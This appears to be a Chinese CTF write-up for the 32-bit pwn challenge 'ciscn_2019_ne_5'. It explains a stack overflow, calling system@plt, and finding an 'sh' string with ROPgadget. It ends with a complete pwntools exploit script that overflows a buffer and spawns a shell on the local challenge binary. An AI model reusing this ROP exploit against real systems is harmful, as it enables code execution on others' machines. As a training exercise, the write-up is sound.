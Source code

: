 ```yaml
---
title: 'ciscn_2019_ne_5'
date: 2023-12-30 13:00:00 +0800
categories: [ctf,pwn]
tags: [32bit,rop]
---
```

![image-20231228210913917](../assets/img/old_imgs/image-20231228210913917.png)

- `32`位`ROP`劫持

- 程序逻辑

- `/bin/sh`的替代方案`sh`

- 栈上覆盖

- `ROPgadgets`查找字符串

  ![image-20231228211113719](../assets/img/old_imgs/image-20231228211113719.png)

  > GetFlag函数

  1.`GetFlag`函数中把先前`AddLog`中加入的`src`变量赋给了`dest`,这里存在溢出

  2.`Print`函数中有`system`函数,通过`plt_system`利用

  3.通过`ROPgadgets`得到`sh`字符串构造`payload`得到`shell`

```shell
bamuwe@qianenzhao:~/done/ciscn_2019_ne_5$ ROPgadget --binary ciscn_2019_ne_5 --string 'sh'
Strings information
============================================================
0x080482ea : sh
```

|          | administer      |      |            |                 |
| -------- | --------------- | ---- | ---------- | --------------- |
|          | 1               |      |            |                 |
| payload1 | padding         |      | 0x4C       | dest            |
|          |                 |      |            | (padding+leave) |
|          | system_plt_addr | ret  |            | system          |
|          | 0xdeadbeef      |      |            |                 |
|          | sh              |      | 0x080482ea |                 |

```python
from pwn import *
context.log_level = 'debug'
elf = ELF('./ciscn_2019_ne_5')
io = process('./ciscn_2019_ne_5')
#io = gdb.debug('./ciscn_2019_ne_5','break *080486C7')
io.sendlineafter(b'Please input admin password:',b'administrator')
io.sendlineafter(b':\n',b'1')
payload1 = b'A'*0x4C+p32(elf.sym['system'])+p32(0xdeadbeef)+p32(0x080482ea)	#不能用p32(0)替代p32(deadbeef)
io.sendlineafter(b'Please input new log info:',payload1)
io.sendlineafter(b':\n',b'4')
io.interactive()
```
